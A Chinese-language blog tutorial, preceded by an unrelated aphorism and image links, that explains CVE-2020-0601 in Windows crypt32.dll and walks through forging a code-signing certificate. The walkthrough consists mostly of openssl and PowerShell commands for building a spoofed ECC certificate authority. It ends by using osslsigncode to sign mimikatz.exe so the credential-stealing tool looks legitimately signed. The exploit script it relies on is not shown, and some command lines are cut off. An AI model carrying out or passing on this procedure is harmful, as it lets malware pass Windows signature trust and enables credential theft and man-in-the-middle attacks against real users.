










人到中年的男人，时常会觉得孤独，因为他一睁开眼睛，周围都是要依靠他的人，却没有他可以依靠的人。
文如题目，使用CVE-2020-0601进行伪造签名
漏洞简介
Windows 的crypt32.dll模块中，对于使用了 椭圆曲线密码（ Elliptic Curve Cryptography ECC） 的证书的验证的过程出现纰漏，使得攻击者可以通过伪造证书，给一些恶意软件签名，伪装成正常的软件，或者强行安装驱动；亦或者伪造https证书，实现中间人攻击。
具体细节
Elliptic Curve Cryptography
要想了解这个漏洞，首先得了解一下这个ECC。这里选取对ECC的定义。
首先我们需要定义以下什么叫做椭圆曲线。设F表示一个域，则在这个域上的如下形式的表达式
y2+a1xy+a3y=x3+a2x2+a4x+a6
确定的点 (x,y)∈FxF 以及一个特殊的无穷远点O所构成的集合，被称为椭圆曲线，其中的a1,a2,a3,a4,a6∈F。 上述式子同时被称为Weierstrass方程
然后我们加密算法中讨论的椭圆曲线在满足F的特征既不等于2又不等于3（就是说 mod 的数字既不是2也不是3）的时候，上述椭圆曲线的方程可以化简为
y2=x3+ax+b
其中x,y∈F

当然还有其他各种各样的图像，不得不说，数学是美丽的。

由于本文章并不是对漏洞进行细节讲述，所以不会过多的去讲述漏洞细节。
签名伪造
首先，我们需要以下依赖，来使用后面的exp：
1 | pip3 install fastecdsa |
然后使用下面的ps脚本获取系统的证书。
1 | dir Cert:\LocalMachine\root -Recurse|?{$_.FriendlyName -like "*ECC*"} |%{New-Object -TypeName psobject -Property @{ |

然后我们windows+r运行certmgr打开证书管理，选择其中的一个证书进行导出，到处时选择base64即可。

然后我们便得到了一个证书
在linux下使用下面的命令查看证书的详细信息：
1 | openssl x509 -in ca.cer -text -noout |

然后运行我们的exp
此时生成“spoofed_ca.key”公钥文件

然后基于此密钥生成一个新的x509证书，这将是我们自己的欺骗性CA。
1 | openssl req -new -x509 -key spoofed_ca.key -out spoofed_ca.crt |

然后生成一个新密钥。该密钥可以是任何类型，它将用于创建代码签名证书，我们将使用自己的CA对其进行签名
1 | openssl ecparam -name secp384r1 -genkey -noout -out cert.key |
接下来创建一个新的证书签名请求（CSR）
1 | openssl req -new -key cert.key -out cert.csr -config openssl_cs.conf -reqexts v3_cs |
此时会生成csr文件。
最后使用我们的欺骗性CA和CA密钥签署新的CSR。该证书将在2047年到期，而真正的受信任Microsoft CA将在2043年到期
1 | openssl x509 -req -in cert.csr -CA spoofed_ca.crt -CAkey spoofed_ca.key -CAcreateserial -out cert.crt -days 10000 -extfile openssl_cs.conf -extensions v3_cs |

最后将证书的密钥和欺骗性的CA打包到一个PKCS12文件中，以对可执行文件进行签名
1 | openssl pkcs12 -export -in cert.crt -inkey cert.key -certfile spoofed_ca.crt -name "Code Signing" -out cert.p12 |

然后使用osslsigncode + PKCS12进行文件签名
1 | osslsigncode sign -pkcs12 cert.p12 -n "Signed by lengyi" -in mimikatz.exe -out mimikatz2.exe |
得到签名后mimikatz。

除此之外，可以吧cnf的内容，换成下面的：
1 | [ req ] |
则更具有效果。
参考文章：
https://www.cnblogs.com/dgjnszf/p/12256824.html
https://blog.csdn.net/eastmount/article/details/104335673#t7